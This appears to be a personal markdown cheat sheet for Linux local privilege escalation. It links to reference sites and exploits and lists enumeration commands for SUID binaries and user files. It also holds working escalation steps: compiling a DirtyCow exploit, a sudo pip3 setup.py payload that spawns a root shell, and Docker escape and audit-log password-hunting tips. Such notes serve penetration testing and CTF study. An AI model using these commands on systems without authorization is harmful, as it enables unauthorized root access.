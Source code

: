 # Local Priv Esc
#linux #lpe
https://gtfobins.github.io/
https://lolbas-project.github.io/#
https://book.hacktricks.xyz/linux-unix/privilege-escalation

- Get OS information
- Check if the sudo version is vulnerable
	- sudo -v
	- sudo -l
- Check the PATH, any writable folder?
	- `set`
- Check env variables, any sensitive detail?
- Search for kernel exploits using scripts (DirtyCow?)
	- https://www.exploit-db.com/exploits/40839
	- gcc -pthread shell.c -o dirty -lcrypt
- Dmesg signature verification failed error?
- More system enum (date, system stats, cpu info, printers)
- Enumerate more defenses
	- #LinPEAS: https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh


# Sticky-Bit

```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

## Unsanitized paths
#unsanitizedpath #path
If you find any custom binaries but they don't seem to do anything, try finding out what they do with `ltrace` and `strace`. Maybe they don't use a full path for an executable and you can make it execute one of you binaries instead by manipulation the path.

# Find files belonging to user

`find / -user <user> 2>/dev/null | egrep -v "proc|venv"`
`find / -group <group> 2>/dev/null | egrep -v "proc|venv"`

# Exploit via Path if SUID-Binary does not use full path
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

# Exploit lxd group
https://www.hackingarticles.in/lxd-privilege-escalation/

# pip
`pip3 install <local_dir>` searches the local dir for a setup.py and executes it. Helpful if pip is in the sudoers or sbit.

Alternative (https://gtfobins.github.io/gtfobins/pip/):

`TF=$(mktemp -d)`
`echo "import os;os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py`
`sudo -H /usr/bin/pip3 install $TF`

# Audit-Logs
grep audit-logs for "data=" and decode as hex. Might contain passwords

# Docker
Dowload: https://github.com/PercussiveElbow/docker-escape-tool
`./docker-escape auto`